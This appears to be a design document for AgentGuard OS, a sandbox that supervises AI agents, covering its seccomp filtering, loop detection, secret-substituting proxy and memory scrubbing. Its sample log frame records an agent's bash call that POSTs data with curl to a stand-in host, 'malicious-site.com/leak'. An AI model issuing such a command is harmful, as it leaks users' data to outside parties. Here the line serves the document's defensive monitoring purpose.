

# 🔄 AgentGuard OS: Execution Workflow

This document details the lifecycle and workflow of an agent execution session managed by **AgentGuard OS**.

---

## 📅 Session Execution Lifecycle



---

## 🛠️ Step-by-Step Workflow Phases

### Phase 1: Pre-Flight & Provisioning
1.  **State Setup:** The Host runner instantiates the state storage in memory, tracking variables like:
    - `cpu_cycles_allocated`
    - `network_bandwidth_bytes`
    - `api_budget_cents`
2.  **Proxy Rules Injection:** Network Access Control Lists (NCL) and secret placeholder maps are loaded into the user-space proxy kernel space (or memory tables).
3.  **VM Allocation:** A microVM (or WASM environment) is provisioned. The clean workspace directories are mounted and system limits (`rlimits`) are enforced.

### Phase 2: Run & Monitoring Loop
During execution, the agent issues shell commands, runs code, and calls APIs.

*   **Syscall Verification:** Every system call passes through Seccomp filters. If an unapproved syscall is made, execution halts instantly.
*   **Log Frame Ingestion:** The proxy captures the exact command inputs, arguments, and network requests, creating a historical tracking list:
    ```json
    {
      "step": 14,
      "tool_used": "bash_shell",
      "arguments": "curl -X POST https://malicious-site.com/leak -d 'data=...' ",
      "timestamp": 1715951800
    }
    ```
*   **The Loop Check Trigger:**
    - At every step $N$, the agent's recent logs are cross-referenced with previous steps.
    - If the Cosine similarity of the system outputs/inputs across steps $N-3$ to $N$ exceeds `0.92`, the VM is suspended.

### Phase 3: Outbound Network Inspection
*   Any outbound HTTP call is parsed by the user-space TLS interception engine.
*   The proxy translates local placeholders like `__SECRET_PLACEHOLDER_OPENAI__` to live secret strings stored securely *only* in host memory.
*   The raw live secrets never enter the sandbox's virtual memory or disk pages.

### Phase 4: Clean Teardown & Post-Mortem
1.  **Freeze & Flush:** The host issues an ACPI shutdown command (or kills the Wasm instance).
2.  **RAM Scrubbing:** Sandbox virtual memory is explicitly zeroed out to prevent cold-boot memory dumps.
3.  **Ephemeral Clean:** The RAM workspace mount points are unmounted and formatted.
4.  **Audit Logs:** A redacted, cryptographic execution transcript is compiled and sent to the host's log archive.
